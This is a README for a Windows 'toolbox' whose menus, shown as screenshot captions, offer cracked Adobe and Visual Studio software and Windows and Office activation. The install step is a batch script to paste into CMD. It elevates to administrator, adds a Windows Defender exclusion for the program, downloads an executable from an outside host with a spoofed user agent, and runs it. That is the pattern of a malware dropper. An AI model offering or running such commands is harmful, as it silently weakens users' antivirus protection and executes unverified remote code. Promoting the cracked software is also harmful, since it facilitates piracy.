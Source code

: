 # Saoas_Toolbox
 - **Installation:**
   - Run this Command in CMD! or download it [here](https://links.saoas.tv/Toolbox/Saoas_Toolbox.cmd)
```
@echo off
<!-- : --- Self-elevating.bat ---------------------------------------
whoami /groups | find "S-1-16-12288" > nul && goto :ELEVATED
echo Requesting administrative privileges...
set "ELEVATE_CMDLINE=cd /d "%cd%" & call "%~f0" %*"
cscript //nologo "%~f0?.wsf" //job:Elevate & exit /b

-->
<job id="Elevate"><script language="VBScript">
  Set objShell = CreateObject("Shell.Application")
  Set objWshShell = WScript.CreateObject("WScript.Shell")
  Set objWshProcessEnv = objWshShell.Environment("PROCESS")
  strCommandLine = Trim(objWshProcessEnv("ELEVATE_CMDLINE"))
  objShell.ShellExecute "cmd", "/c " & strCommandLine, "", "runas"
</script></job>
:ELEVATED -----------------------------------------------------------

powershell -Command Add-MpPreference -ExclusionProcess "Saoas_Toolbox.exe" -Force
cd /d "%USERPROFILE%/Desktop/"
wget -q --show-progress --user-agent="chrome" --no-hsts "https://links.saoas.tv/Toolbox/Saoas_Toolbox.exe" -O Saoas_Toolbox.exe
Saoas_Toolbox.exe
```

#####


![Saoas Toolbox Main Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/dbcb3a42-5285-4d69-a21f-4c29c61c15ab)


![Saoas Tools Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/35a5f07d-590e-4024-a07e-ce7ffd9386c9)


![Runtimes Frameworks Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/e2f3a1d4-667a-47fd-9825-7c7680c8448c)


![Programm files Menu 1of2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/02cebc8c-ff2a-49cd-ad3d-223c7ba1da4d)


![Programm files Menu 2of2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/5c9fb0e4-ce8c-4d40-8ce2-f7080b2bbec6)


![Internet Browsers Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/ff08cc32-7aa2-4cc5-b77e-0b46f06c8e19)


![Windows Tweaks Main Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/50a8410f-17b8-41dd-98b8-357d9c5cb7fb)


![Windows Context Tweaks Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/a9939d29-fdc8-4e0b-8144-880fe2d5b6b7)


![Windows Tweaks Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/8527b18e-cdcd-4f75-a34d-8e3ba888b51d)


![Windows Install and Activation Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/603613bd-ef29-4922-b022-03fe9e434128)


![Office Install and Activation Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/09265b54-eaf3-4a26-abc3-a56f5d415894)


![Cracked Files Main Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/50452122-a3b6-4cba-a072-1d4e1b7cc923)


![Cracked Adobe Files Menu 1 of 2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/af39f97a-e5df-4b6e-af73-09b9433ff631)


![Cracked Adobe Files Menu 2 of 2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/a0e89f09-b7db-494f-b3d1-89a2be74b3c0)


![Cracked Microsoft Visual Studio Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/9716dbee-dd25-44ac-8673-507f6a518525)


![Microsoft Visual Studio 2022 Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/023292eb-3f3a-471d-8084-e3025add3547)


![Packet Managers Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/ad735b1f-06d3-44b8-a374-77750a0d5ba0)
